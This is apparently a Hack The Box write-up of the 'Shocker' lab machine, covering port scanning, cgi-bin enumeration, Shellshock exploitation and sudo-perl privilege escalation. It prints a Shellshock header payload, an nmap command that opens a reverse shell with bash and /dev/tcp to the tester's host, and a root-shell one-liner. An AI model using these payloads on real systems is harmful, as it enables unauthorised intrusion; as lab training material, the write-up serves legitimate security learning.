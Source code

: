 # Shocker

## Machine Info

![image-20231201000210315](./Shocker.assets/image-20231201000210315.png)

## Recon

```
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.16 (96%), Linux 3.18 (96%), Linux 3.2 - 4.9 (96%), Linux 4.2 (96%), Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.8 - 3.11 (95%), Linux 4.8 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 4.4 (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- attack vector: 80 http, 2222 ssh (not recommended)
- find Ubuntu version by apache version or openssh version

![image-20231201020057658](./Shocker.assets/image-20231201020057658.png)

## Foothold

### 80 - http - cgi

- 80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))

![image-20231201020133491](./Shocker.assets/image-20231201020133491.png)

- nothing found inside image

```
$ exiftool bug.jpg
ExifTool Version Number         : 12.67
File Name                       : bug.jpg
Directory                       : .
File Size                       : 37 kB
File Modification Date/Time     : 2014:09:26 02:16:14+08:00
File Access Date/Time           : 2023:11:30 22:50:44+08:00
File Inode Change Date/Time     : 2023:11:30 22:50:38+08:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
Comment                         : CREATOR: gd-jpeg v1.0 (using IJG JPEG v62), quality = 90.
Image Width                     : 820
Image Height                    : 420
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 820x420
Megapixels                      : 0.344
```

- subdomain -> nothing [x]

- path: `dirb $IP`

```
+ http://10.10.10.56/cgi-bin/ (CODE:403|SIZE:294)
+ http://10.10.10.56/index.html (CODE:200|SIZE:137)
+ http://10.10.10.56/server-status (CODE:403|SIZE:299)
```

- enum files inside **cig-bin**, `gobuster dir -u $URL/cgi-bin/ -w /usr/share/dirb/wordlists/common.txt -x php,sh,py,pl -t 50`

![image-20231201020248166](./Shocker.assets/image-20231201020248166.png)

- visit this url in browser get a **user.sh** file

![image-20231201020317531](./Shocker.assets/image-20231201020317531.png)

- since this is an output of `uptime` -> user.sh can be executed by apache server -> Ubuntu version **Xenial**, bash version might be < 4.3 -> **shellshock**

### cgi - shellshock

- nmap script scanning -> yes

![image-20231201020509092](./Shocker.assets/image-20231201020509092.png)

### shellshock payload explanation

**http request header:**

```
GET /cgi-bin/user.sh HTTP/1.1
Host: shocker.htb
Connection: close
Cookie: () {:;}; echo; /bin/bash --version
```

### get shell method 1

- `nmap -sV -p80 --script http-shellshock --script-args uri=/cgi-bin/user.sh,cmd='echo Content-Type: text/html; echo; /bin/bash -c "bash -i >& /dev/tcp/$LOCAL 0>&1"' $IP`

![image-20231201020559889](./Shocker.assets/image-20231201020559889.png)

### get shell method 2

[PayloadsAllTheThings/CVE Exploits/Shellshock CVE-2014-6271.py at master · swisskyrepo/PayloadsAllTheThings (github.com)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/CVE Exploits/Shellshock CVE-2014-6271.py)

![image-20231201020852557](./Shocker.assets/image-20231201020852557.png)

![image-20231201020855771](./Shocker.assets/image-20231201020855771.png)

## Privilege Escalation

![image-20231201020904546](./Shocker.assets/image-20231201020904546.png)

- `sudo -l` -> `sudo perl -e 'exec "/bin/sh";'`

![image-20231201020913906](./Shocker.assets/image-20231201020913906.png)

![image-20231201020940118](./Shocker.assets/image-20231201020940118.png)

## Exploit Chain

recon -> cgi dir -> cgi script -> shellshock -> sudo -l -> priv esca, root
